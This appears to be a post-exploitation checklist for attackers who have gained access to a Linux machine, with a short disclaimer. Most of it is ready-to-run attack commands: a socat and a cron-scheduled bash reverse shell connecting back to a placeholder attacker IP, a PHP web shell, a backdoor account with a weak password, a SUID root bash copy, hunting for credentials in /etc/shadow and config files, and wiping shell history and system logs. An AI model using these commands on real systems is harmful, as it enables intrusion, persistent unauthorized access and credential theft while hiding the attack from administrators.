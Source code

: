 What to do After Initial Access to linux machine, system or server.
Here is a structured checklist of things to do after gaining initial access to a Linux machine, system or servers.
Important Disclaimer
This information is for educational, authorized penetration testing, and defensive security purposes only. Unauthorized access to computer systems is illegal and unethical. Always ensure you have explicit written permission before testing any system.
Phase 1: Immediate Actions & Stabilization
The first goal is to stabilize your access and understand the basic environment.
1.  Upgrade Your Shell:
 Why: A basic reverse shell is often unstable (e.g., no job control, susceptible to dying).
    Method 1: Python pty
        python3 -c 'import pty; pty.spawn("/bin/bash")'
 Then background the shell with Ctrl+Z, then:
        stty raw -echo; fg
Method 2: Using script/socat for a more robust shell (if available)
        script -qc /bin/bash /dev/null
    socat file:'tty`,raw,echo=0 tcp-connect:<YOUR_IP>:<PORT>
2.  Background Information Gathering:
    Who are you? "id", whoami
    What is the host? hostname, uname -a (Kernel version)
What's running? ps aux (Running processes), "netstat -tulpn" or "ss -tulpn" (Listening ports)
What's the network configuration? "ifconfig" or "ip a"
    Any interesting environment variables? "env"
Phase 2: Reconnaissance & Privilege Escalation Enumeration
The primary goal is often to escalate privileges to root.
3.  Manual Enumeration Checks:
    Sudo Permissions: "sudo -l" (What can the current user run as root? This is gold).
    SUID/SGID Binaries: "find / -perm -u=s -type f 2>/dev/null" (Find binaries with the SUID bit set, which run with owner's privileges).
World-Writable Files: "find / -perm -o=w -type f 2>/dev/null" (Especially in sensitive directories).
Cron Jobs: "cat /etc/crontab", "ls -la /etc/cron*, "crontab -l" (Scheduled tasks that might be exploitable).
Kernel Version: Check "uname -a" against known exploits (e.g., DirtyCow, DirtyPipe).
OS Information: "cat /etc/os-release" (To find distro-specific exploits).
4.  Automated Enumeration Scripts:
   Why: These scripts quickly check for common misconfigurations.
  Popular Tools: Transfer and run one of these.
    LinPEAS: (linpeas.sh) - The most comprehensive and recommended.
    LinEnum: (linenum.sh) - A classic, simpler script.
    Linux Exploit Suggester (LES): (linux-exploit-suggester.sh) - Focuses on suggesting kernel exploits.
How to transfer: Use a local Python HTTP server on your machine and "wget" or "curl" on the target.
Phase 3: Establishing Persistence
Ensure you can get back in if the initial vulnerability is patched or the connection is lost.
5.  Add a New User:
  "sudo useradd -m -s /bin/bash backdooruser"
echo "backdooruser:password123" | sudo chpasswd"
6.  Install SSH Keys:
   Append your public key to "~/.ssh/authorized_keys" of the current user or a new user.
7.  Web Shell:
     Drop a simple PHP or other language-based shell (e.g., "<?php system($_REQUEST['cmd']); ?>") into a web directory if one exists.
8.  Cron Jobs:
   Add a reverse shell that connects back to you periodically.
Edit crontab for the user
(crontab -l ; echo "*/5 * * * * /bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/<PORT> 0>&1'") | crontab -
9.  SUID Binaries:
Copy "/bin/bash" and set the SUID bit: "cp /bin/bash /tmp/.rootbash; chmod +s /tmp/.rootbash". Then run "/tmp/.rootbash -p" to get a root shell.
Phase 4: Lateral Movement (If in a Network)
If this machine is part of a network, pivot to attack other systems.
10. Network Discovery:
"arp -a" (See other hosts on the local network).
Check the "/etc/hosts" file.
Use "ping" to sweep the network or tools like `nmap` if you can transfer them.
11. Credential Hunting:
History Files: "cat ~/.bash_history"
Configuration Files: Look for passwords in "/etc/passwd" (weak hashes), web app configs (config.php, wp-config.php), and SSH keys.
Memory: Search for passwords in process memory (more advanced).
Privileged Access: Can you read the "/etc/shadow" file? Can you sniff network traffic with tcpdump?
Phase 5: Covering Your Tracks (For Stealth)
Only for advanced red team engagements where stealth is a requirement.
12. Clear Logs:
 Shell History: "echo > ~/.bash_history" and "history -c"
System Logs: Modify or delete relevant entries in "/var/log/" (e.g., auth.log, secure, wtmp, utmp). This often requires root access.
